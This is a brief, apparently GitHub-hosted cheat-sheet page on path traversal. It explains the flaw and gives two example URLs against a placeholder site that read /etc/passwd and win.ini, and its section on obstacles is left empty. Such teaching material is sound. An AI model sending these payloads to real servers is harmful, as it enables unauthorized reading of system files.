 # Path Traversal

Path Traversal allow a user to read arbitrary files via a path manipulation.

### Table of Content

- [Reading arbitrary files via path traversal](#reading-arbitrary-files-via-path-traversal)
    - [Linux server](#linux-server)
    - [Window server](#windows-server)
- [Common obstacles to exploiting path traversal vulnerabilities](#common-obstacles-to-exploiting-path-traversal-vulnerabilities)

## Reading arbitrary files via path traversal

### Linux server:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

### Windows server:

`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

## Common obstacles to exploiting path traversal vulnerabilities



---

[**:arrow_right_hook: Back home**](/README.md)